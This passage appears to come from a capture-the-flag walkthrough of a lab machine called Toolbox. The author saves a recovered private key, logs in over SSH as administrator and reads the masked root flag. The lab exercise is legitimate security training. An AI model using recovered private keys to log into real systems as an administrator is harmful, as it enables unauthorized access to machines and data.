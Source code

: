 ```
5d+Y+92viETTA1QjDHag4+vZ24F+bG6EvyZlBa7lTX4il7Y2/h8BRiEoZNYePihyNTAb1d
xTSIjilwdPedc8qYaOg/KI/OlrlZ2InxCkwTf3w2d7iafE5uhZOneMZonUa6dkLKJzSJLB
6ZwEmI3J9kKFOKlaYEwrzz
---- END SSH2 PUBLIC KEY ----

```

They match!

### SSH

I’ll create a copy of the private key on my local VM, and set the permissions so that SSH will trust it:

```

oxdf@parrot$ vim ~/keys/toolbox-administrator
oxdf@parrot$ chmod 600 ~/keys/toolbox-administrator

```

Now I can use it to auth as administrator:

```

oxdf@parrot$ ssh -i ~/keys/toolbox-administrator administrator@10.10.10.236
Warning: Permanently added '10.10.10.236' (ECDSA) to the list of known hosts.
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved. 

administrator@TOOLBOX C:\Users\Administrator>  

```

And get the final flag:

```

administrator@TOOLBOX C:\Users\Administrator\Desktop>type root.txt
cc9a0b76************************

```